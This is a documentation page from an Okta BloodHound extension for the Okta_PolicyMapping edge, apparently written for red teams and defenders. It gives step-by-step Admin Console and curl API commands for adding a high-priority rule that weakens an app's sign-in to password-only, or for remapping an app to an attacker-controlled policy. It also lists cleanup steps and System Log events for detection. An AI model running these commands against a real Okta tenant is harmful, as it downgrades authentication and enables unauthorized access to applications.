

## General Information

The non-traversable Okta_PolicyMapping edges represent the association between a policy and the resources to which it is applied.

> [!NOTE]
> Only application targets are supported in the current version of the Okta BloodHound extension.



## Abuse Info

`Okta_PolicyMapping` is not a credential path by itself. It means the source policy is applied to the destination application. An attacker abuses this edge only when they can control or modify the source policy, or when they can switch the destination application onto a source policy they control.

The most direct abuse is with an `ACCESS_POLICY` app sign-in policy. If the source policy controls sign-in to the destination application, the attacker can add a high-priority rule that matches their user, group, network zone, risk level, device state, or platform and requires weaker authentication than the legitimate rules. Other policy types can matter too, but the exact impact depends on the source policy's `type`: an IdP discovery policy can influence routing to an inbound IdP, a device signal collection policy can influence device context collection, and a profile enrollment policy can affect enrollment requirements. Do not assume every mapped policy can weaken app sign-in; verify the policy type first.

Using the Admin Console:

1. Gain administrative control over the source policy through `Okta_SuperAdmin`, `Okta_OrgAdmin`, `Okta_AppAdmin`, `Okta_MobileAdmin`, or a custom role with `okta.policies.manage` over the policy.
2. Open the source policy in the Admin Console. For app sign-in policies, go to **Security** > **Authentication Policies** > **App sign-in**.
3. Confirm the destination application appears on the policy's applications list, or switch the destination application to the source policy if the attack path includes policy mapping control.
4. Record the original policy rules, priorities, group/user conditions, network zones, device conditions, and authentication requirements.
5. Add a new high-priority rule that matches only the attacker-controlled user or group.
6. Set the rule to allow access with the weakest authentication that is useful and permitted in the tenant, such as password-only or any one factor type.
7. If abusing IdP discovery rather than app sign-in policy, add or modify a routing rule that sends the targeted sign-in to an attacker-controlled IdP, then continue with `Okta_IdentityProviderFor` or `Okta_InboundSSO`.
8. Start a new sign-in to the destination application as the controlled user and satisfy the weakened policy rule.

Using the Okta Policy and Application Policy APIs:

1. Set variables for the source policy, destination app, controlled user, and a narrow controlled group used by the temporary policy rule.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export POLICY_ID="00p..."
    export APP_ID="0oa..."
    export CONTROLLED_GROUP_ID="00g..."
    export CONTROLLED_USER_ID="00u..."
    ```

2. Retrieve and save the source policy, then verify it is the policy type you intend to abuse.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/policies/$POLICY_ID" \
      | tee /tmp/okta-policy-original.json \
      | jq '{id, name, type, status, priority, system, lastUpdated}'
    ```

3. Verify that the destination application is mapped to the source policy.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/policies/$POLICY_ID/mappings" \
      | tee /tmp/okta-policy-mappings-original.json \
      | jq -r --arg app "$APP_ID" '
          .[]
          | select(._links.application.href | endswith("/api/v1/apps/" + $app))
          | [.id, ._links.application.href, ._links.policy.href] | @tsv'
    ```

4. Save the original rules for cleanup.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/policies/$POLICY_ID/rules" \
      | tee /tmp/okta-policy-rules-original.json \
      | jq -r '.[] | [.id, .name, .status, .priority, .type] | @tsv'
    ```

5. Add the controlled user to a narrow group used only by the temporary rule.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$CONTROLLED_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

    A successful group membership change returns `204 No Content`.

6. For an `ACCESS_POLICY`, create a temporary high-priority rule that allows the controlled group to use one password factor. The exact authentication methods available depend on tenant policy and authenticators, so validate this in a test tenant before using it operationally.

    ```bash
    TEMP_RULE_ID="$(
      curl -sS -X POST \
        -H "Authorization: SSWS $OKTA_API_TOKEN" \
        -H "Accept: application/json" \
        -H "Content-Type: application/json" \
        -d @- \
        "$OKTA_ORG/api/v1/policies/$POLICY_ID/rules" <<JSON | jq -r '.id'
    {
      "system": false,
      "type": "ACCESS_POLICY",
      "name": "Temporary 1FA rule for controlled group",
      "priority": 0,
      "conditions": {
        "riskScore": {
          "level": "ANY"
        },
        "people": {
          "groups": {
            "include": [
              "$CONTROLLED_GROUP_ID"
            ],
            "exclude": []
          },
          "users": {
            "include": [],
            "exclude": []
          }
        }
      },
      "actions": {
        "appSignOn": {
          "access": "ALLOW",
          "verificationMethod": {
            "factorMode": "1FA",
            "reauthenticateIn": "PT2H",
            "type": "ASSURANCE",
            "constraints": [
              {
                "knowledge": {
                  "types": [
                    "password"
                  ]
                }
              }
            ]
          }
        }
      }
    }
    JSON
    )"

    export TEMP_RULE_ID
    printf '%s\n' "$TEMP_RULE_ID"
    ```

7. Verify the temporary rule exists and has the highest priority.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/policies/$POLICY_ID/rules/$TEMP_RULE_ID" \
      | jq '{id, name, status, priority, type, conditions, actions}'
    ```

8. If the destination app is not already mapped to the source policy and the path includes app-policy assignment control, switch the app to the source policy.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$APP_ID/policies/$POLICY_ID"
    ```

    A successful app sign-in policy assignment returns `204 No Content`.

9. Start a fresh sign-in or app launch as the controlled user. Okta evaluates policy during authentication, so use a new browser session, private window, or token flow that forces policy evaluation. The Management API verifies configuration state, but the actual access test happens in the interactive or OAuth/OIDC application flow.

## Cleanup after Abuse

Cleanup for `Okta_PolicyMapping` removes the temporary policy rule or app-policy assignment, restores the original source policy rules and priorities, removes any temporary matching group membership, and revokes sessions created while the destination app accepted the weakened policy.

Cleanup using Admin Console:

1. Open the source policy and remove the temporary high-priority rule.
2. Restore original rule order, user/group conditions, network zones, device conditions, assurance requirements, and IdP routing.
3. If the destination application was switched to the source policy only for the operation, switch it back to its original app sign-in policy.
4. Remove the controlled user from any temporary group used to match the rule.
5. Revoke sessions for users who authenticated to the destination app through the weakened policy.
6. Test the destination application with a non-privileged account and verify the original policy behavior is enforced.

Cleanup using API:

1. Delete the temporary policy rule that weakened the destination application's requirements.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/policies/$POLICY_ID/rules/$TEMP_RULE_ID"
    ```

    A successful deletion returns `204 No Content`.

2. Remove the controlled user from the temporary matching group.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$CONTROLLED_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

3. If the destination app was switched to the source policy during abuse, restore the original app sign-in policy.

    ```bash
    export ORIGINAL_POLICY_ID="00p_original..."

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$APP_ID/policies/$ORIGINAL_POLICY_ID"
    ```

4. If an existing rule was modified in place instead of adding a temporary rule, restore the saved rule JSON with the Policy Rules API.

    ```bash
    export RESTORE_RULE_ID="0pr..."

    jq --arg id "$RESTORE_RULE_ID" '.[] | select(.id == $id)' /tmp/okta-policy-rules-original.json > /tmp/okta-policy-rule-restore.json

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d @/tmp/okta-policy-rule-restore.json \
      "$OKTA_ORG/api/v1/policies/$POLICY_ID/rules/$RESTORE_RULE_ID"
    ```

5. Verify the temporary rule is gone, the destination app is mapped to the expected policy, and the controlled user no longer matches the temporary group condition.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/policies/$POLICY_ID/rules" \
      | jq -r '.[] | select(.id == env.TEMP_RULE_ID)'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/policies/$POLICY_ID/mappings" \
      | jq -r --arg app "$APP_ID" '.[] | select(._links.application.href | endswith("/api/v1/apps/" + $app)) | [.id, ._links.application.href] | @tsv'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$CONTROLLED_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID)'
    ```

6. Revoke Okta sessions and OAuth tokens for the controlled user if the weakened policy was used.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

## Opsec Considerations

Policy mapping abuse is visible through policy, group, app, and authentication telemetry. Relevant Okta System Log event types include `policy.rule.add`, `policy.rule.update`, `policy.rule.delete`, `policy.lifecycle.update`, `policy.mapping.create`, `policy.evaluate_sign_on`, `group.user_membership.add`, `group.user_membership.remove`, and `user.authentication.sso`.

A high-priority app sign-in rule that targets a narrow user or group and reduces assurance shortly before a sensitive app launch is especially high-signal. Defenders should review the evaluated policy rule in `policy.evaluate_sign_on`, the app sign-in policy assigned to the application, and the actor that created or updated the rule.

## References

- [Okta Policy API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Policy/)
- [Okta Policy API: List all resources mapped to a policy](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Policy/#tag/Policy/operation/listPolicyMappings)
- [Okta Policy API: Create a policy rule](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Policy/#tag/Policy/operation/createPolicyRule)
- [Okta Application Policies API: Assign an app sign-in policy](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationPolicies/#tag/ApplicationPolicies/operation/assignApplicationPolicy)
- [Okta policy and rule prioritization](https://developer.okta.com/docs/guides/policy-rule-prioritization/main/)
- [Okta assign apps to an app sign-in policy](https://help.okta.com/oie/en-us/content/topics/identity-engine/policies/share-auth-policies.htm)
- [Okta add an app sign-in policy rule](https://help.okta.com/oie/en-us/Content/Topics/identity-engine/policies/add-app-sign-on-policy-rule.htm)
- [Okta Groups API: Assign a user to a group](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/assignUserToGroup)
- [Okta User Sessions API: Revoke all user sessions](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/#tag/UserSessions/operation/revokeUserSessions)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
